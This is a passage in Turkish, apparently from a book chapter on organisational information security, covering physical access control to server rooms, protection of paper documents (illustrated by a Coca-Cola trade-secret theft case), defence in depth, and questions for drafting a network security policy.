**Fiziksel Erişimi Kısıtlayın**Teknolojiye odaklanıldığında, teknik olmayan güvenlik mekanizmalarını gözden kaçırmak genellikle kolaydır. Eğer bir davetsiz misafir bir sunucuya veya başka bir altyapı varlığına fiziksel erişim sağlayabilirse, davetsiz misafir kurumun sahibi olacaktır. Kritik sistemler güvenli alanlarda tutulmalıdır. Güvenli alan, yalnızca iş sorumluluklarının bir parçası olarak sistemlere erişmesi gereken kişilerin erişimini kontrol etme olanağı sağlayan alandır. Sadece sistem yöneticisine verilen bir anahtarla kilitli tutulan ve tek kopyası ofis yöneticisinin ofisindeki bir kasada saklanan bir oda iyi bir başlangıçtır. Odanın açılabilen herhangi bir penceresi olmamalıdır. Ayrıca odanın üzerinde sunucu odası ya da ağ operasyon merkezi olduğunu belirten hiçbir etiket ya da işaret bulunmamalıdır. Ekipman, diğer çalışanların, görevlilerin veya yüklenicilerin erişebileceği bir dolapta saklanmamalıdır. Güvenlik mekanizmalarınızın geçerliliği üçüncü taraf bir güvenlik açığı değerlendirmesi sırasında gözden geçirilmelidir.

**Kağıdı Unutmayın!**İleri teknolojinin gelişmesiyle birlikte, insanlar geçmişte bilgilerin kağıt üzerinde nasıl çalındığını unuttular. Kağıt belgeleri yönetmek oldukça basittir. Kilitli dosya dolapları kullanılmalı ve sürekli olarak kilitlenmelidir. Özel belgelerin fazladan kopyaları, belge taslakları ve süresi dolmuş şirket içi iletişimler imha edilmesi gereken materyallerden bazılarıdır. Çalışanlara basılı belgelerle ne yapmaları ve yapmamaları gerektiğini söyleyen bir politika oluşturulmalıdır. Ticari sırların çalınmasına ilişkin aşağıdaki örnek, kağıt belgelerin korunmasının önemini vurgulamaktadır:

> Nahmias ve FBI yetkilileri, bir şirket güvenlik kamerasının Coca-Cola çalışanı Joya Williams'ı masasında dosyaları karıştırırken ve "belgeleri çantalara doldururken" yakaladığını söyledi. Yetkililer, Haziran ayında gizli bir FBI ajanının Atlanta havaalanında sanıklardan bir başkasıyla buluştuğunu ve ona içinde gizli Coca-Cola belgeleri ve şirketin geliştirmekte olduğu bir ürünün numunesi bulunan bir Armani çanta karşılığında sarı bir Kurabiye kutusu içinde 30.000 dolar verdiğini söyledi.

Bahsedilen güvenliğe ulaşma adımları sadece bir başlangıçtır. Güvenli bir kuruluş oluşturmaya nereden başlanacağı konusunda bir fikir vermelidirler.

Ağı izinsiz girişlere karşı korumak zorlu bir iş olabilir. Bu tür bir tehditle karşılaştığınızda, sokaktaki polisler gibi sayıca az ve yetersiz donanıma sahip olabilen bir düşmanla karşı karşıyasınız. Bu düşman giderek daha karmaşık hale gelen ve en iyi savunmalarınızı bile aşabilecek araçlara sahip olabilir. Bu nedenle, savunmanız ne kadar iyi olursa olsun, sürekli gelişmelere ayak uydurmanız gerekmektedir. Ağ güvenliğinde başarılı olmanın en önemli yolu, mantıklı, düşünceli ve çevik bir yaklaşım sergilemektir. Bu da teknolojik değişimlere ayak uydurmak ve güncel kalmak anlamına gelir. Aynı zamanda ağ güvenliğinin farklı yönlerini ele alan teknik raporlar, seminerler, güvenlik uzmanları ve çevrimiçi kaynakları takip etmek önemlidir. Ayrıca, anlaşılması kolay bir ağ güvenliği politikasına sahip olmak da önemlidir. Bu politika, tüm kullanıcıların ihtiyaçlarını göz önünde bulundurarak ağınızı en iyi şekilde korumak için düşünmelerini sağlar. Kullanıcıları da ağ güvenliği konusunda eğitmek gereklidir, çünkü ne kadar çok bilgi sahibi olurlarsa, o kadar iyi bir şekilde yardımcı olabilirler.

Ağ izinsiz girişlerine karşı korunmak için, istismarlardan(exploit) zararlı yazılımlara ve sosyal mühendisliğe kadar çeşitli saldırıları anlamalıyız. Doğrudan saldırılar yaygındır, ancak kurbanları kötü niyetli bir Web sitesine çekmek için yemlere dayanan bir oltalama saldırıları sınıfı ortaya çıkmıştır. Oltalama saldırılarını ortaya çıkarmak ve bir şekilde bunlara karşı savunma yapmak çok daha zordur. Hemen hemen herkes mağdur olabilir.

Bilgisayarları güçlendirmek ve maruz kaldıkları riskleri azaltmak için çok şey yapılabilir, ancak bazı saldırılar kaçınılmazdır. Derinlemesine savunma, savunma katmanlarını birleştiren en pratik savunma stratejisidir. Her savunma katmanı kusurlu olsa da, davetsiz misafirler için maliyetin üstesinden gelmek daha zor hale gelir.

Sonuç olarak, her ne kadar güçlü güvenlik çözümlerimiz olursa olsun bu ürünler saldırıyı tamamen engelleyemeyebilir. Ancak, büyük oranda geciktireceği aşikardır. Bu da, saldırgan için bir zaman maliyeti oluşturur. Bu nedenle, saldırgan tarafında ele geçecek kazanım, zaman maliyetine değmiyorsa saldırı caydırılmış olur. Hepsinden önemlisi ise siber saldırılardan korunmak için gerçek uzmanlarca düzenli olarak izleme yapılması gerekliliğidir.

### 7.5. Kapanış

Bir odayı boyamadan önce yapılan sıkıcı hazırlık çalışmaları gibi, kuruluşların da iyi, ayrıntılı ve iyi yazılmış bir güvenlik politikasına ihtiyacı vardır. Aceleye getirilecek bir şey değil "sadece  
yapılması" için güvenlik politikanızın iyi düşünülmüş olması gerekir; başka bir deyişle, 'şeytan ayrıntıda gizlidir'. Güvenlik politikanız, ağınızla ilgili herkesin "aynı çizgide düşünmesini" sağlamak için tasarlanmıştır.

Politika neredeyse her zaman devam eden bir çalışmadır. Teknolojiyle, özellikle de sisteminize gizlice girmeyi amaçlayan teknolojilerle birlikte gelişmelidir. Tehditler ve onları uzak tutmak için tasarlanan sistemler de gelişmeye devam edecektir.

İyi bir güvenlik politikası her zaman tek bir belge değildir; daha ziyade bilgisayar ve ağ kullanımı, kimlik doğrulama biçimleri, e-posta politikaları, uzaktan/mobil teknoloji kullanımı ve Web'de gezinme politikaları gibi belirli alanları ele alan politikaların bir araya getirilmesinden oluşur. Kapsamlı olmakla birlikte, etkilediği kişiler tarafından kolayca anlaşılabilecek şekilde yazılmalıdır. Bu doğrultuda, politikanızın aşırı karmaşık olması gerekmez. Yeni çalışanlara Savaş ve Barış'ı andıran boyutta bir şey verir ve içeriğini bilmekten sorumlu olduklarını söylerseniz, iyi bir ağ güvenliği farkındalığını sürdürmede sürekli sorunlar yaşamayı bekleyebilirsiniz. Basit tutun.



Güvenlik Standartları

Öncelikle, ağınızı ve temel mimarisini tanımlayan bazı politikalar hazırlamanız gerekir. Aşağıdaki soruları sorarak başlamak iyi bir başlangıç olabilir:

* Ne tür kaynakların korunması gerekiyor (kullanıcı finansal veya tıbbi verileri, kredi kartı bilgileri, vb.)
* Ağa içeriden kaç kullanıcı erişecek (çalışanlar, yükleniciler, vb.)
* Yalnızca belirli zamanlarda mı yoksa 7/24 (ve birden fazla saat diliminde ve/veya uluslararası olarak) erişim gerekecek mi?
* Ne tür bir bütçem var?
* Uzak kullanıcılar ağa erişecek mi ve erişecekse kaç kişi olacak?
* Coğrafi olarak uzak konumlarda uzak siteler olacak mı (verilerin ağ boyunca senkronize edilmesini sağlamak için replikasyon gibi hataya karşı güvenli bir mekanizma gerektirir)?

Ardından, güvenlik gereksinimleri için sorumlulukları belirtmeli, beklentilerinizi kullanıcılarınıza iletmeli (herhangi bir güvenlik politikasının en zayıf halkalarından biri) ve ağ yöneticiniz için rol(ler) belirlemelisiniz. Web'de gezinme, indirme, yerel ve uzaktan erişim ve kimlik doğrulama türleri gibi etkinliklere yönelik politikaları listelemelidir. Kullanıcı ekleme, ayrıcalık atama, kayıp belirteçler veya ele geçirilmiş parolalarla başa çıkma ve hangi durumlarda kullanıcıları erişim veritabanından kaldıracağınız gibi konuları ele almalısınız.

Pratik, uygulanabilir ve sürdürülebilir güvenlik politikaları oluşturmaktan sorumlu olacak bir güvenlik ekibi (bazen "kaplan ekibi" olarak da adlandırılır) kurmalısınız. Bu politikaları hem ağ kaynaklarının korunmasını hem de kullanıcı dostu olmasını sağlayacak şekilde uygulamak için en iyi planı bulmalıdırlar. Tehditlere yanıt verme planlarının yanı sıra ekipman ve yazılımların güncellenmesine yönelik programlar da geliştirmelidirler. Ve genel ağ güvenliğindeki değişiklikleri ele almak için çok net bir politika olmalıdır — güvenlik duvarınız üzerinden izin verilecek ve verilmeyecek bağlantı türleri. Bu özellikle önemlidir çünkü yetkisiz bir kullanıcının erişim kazanmasını, ağınıza ulaşmasını ve basitçe dosyaları veya verileri almasını istemezsiniz.

E-ticaret veya gizli faaliyetlere sahip olan işletmelerin, karşılaşabilecekleri riskleri belirlemek için bir risk analizi yapmaları gerekmektedir. Bu analiz, bilgi işleme, ortak erişim ve benzeri faktörleri dikkate alarak yapılmalıdır. Risklere bağlı olarak, işletme bir ağ tasarımı yeniden düşünebilir. Küçük bir işletme için, basit bir extranet/intranet kurulumu ve orta seviye güvenlik duvarı koruması yeterli olabilir. Ancak finansal verilerle ilgilenen bir şirket için bu önlemler yetersiz olacaktır. Bu durumda, ihtiyaç duyulan şey, kademeli bir sistemdir. Aynı zamanda, işletmelerin kurumsal tarafını (e-posta, intranet erişimi vb.) ve ayrı, güvenli bir ağı (internet veya kurumsal taraf) ayırmaları gerekmektedir. Bu ağlara sadece fiziksel olarak erişimi olan bir kullanıcı girebilir ve veriler sadece fiziksel medya kullanılarak aktarılabilir. Bu ağlar, test veya laboratuvar sistemleri gibi veri sistemleri veya kritik veya gizli bilgilerin depolanması veya işlenmesi için kullanılabilir. Savunma Bakanlığı dilinde bu ağlara kırmızı ağlar veya siyah ağlar denir.

Güvenli bir kurum oluşturmanın önündeki bazı zorlukları belirledikten sonra şimdi de başarılı bir şekilde güvenli bir kurum oluşturmanın 10 yolunu inceleyelim. Aşağıdaki adımlar bir işletmeyi sağlam bir güvenlik duruşuna sokacaktır.
